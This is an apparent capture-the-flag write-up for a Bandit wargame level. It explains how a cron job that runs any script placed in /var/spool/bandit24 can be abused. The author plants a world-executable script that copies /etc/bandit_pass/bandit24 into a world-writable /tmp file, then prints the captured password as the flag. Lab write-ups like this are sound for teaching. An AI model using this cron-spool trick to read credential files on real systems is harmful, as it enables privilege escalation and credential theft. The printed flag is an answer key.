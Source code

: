 ```
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
It deletes all scripts in the /var/spool/$myname folder but skips hidden files then it assign root to owner function (thats what stat --format "%U" ./$i returns when I run it as bandit23). If owner = bandit23 then timeout sends signal 9 60 ./$i which I think kills the process after 90 seconds it then rm ./$i

So basically this script is executing every script in /var/spool/bandit24 then deleting it every 60 seconds

So if we had a file in there that could be run by any user then we could extract bandit24's password with those permissions.

First create a temp folder and change permissions 
```
mkdir -p /tmp/seahouse4
cd /tmp/seahouse4
touch getbtfpass.sh
chmod 777 getbtfpass.sh
ls -al getbtfpass.sh
```
Output
```
-rwxrwxrwx 1 bandit23 root 0 May 15 17:35 getbtfpass.sh
```

Right anyone can run this file. So now I can create the following bash file which writes bandit24s password to a password file in my directory
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/seahouse4/password
```
The password file needs to have full permissions so anyone including the cron script can write to it. 
```
touch password
chmod 666 password
ls -al password
```
Output
```
-rw-rw-rw- 1 bandit23 root 0 May 15 17:40 password
```
Finally copy it our bash script to the folder that gets croned every 60 seconds
```
cp getbtfpass.sh /var/spool/bandit24/getbtfpass.sh
```
And now we wait
```
cat password
```
Flag
`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
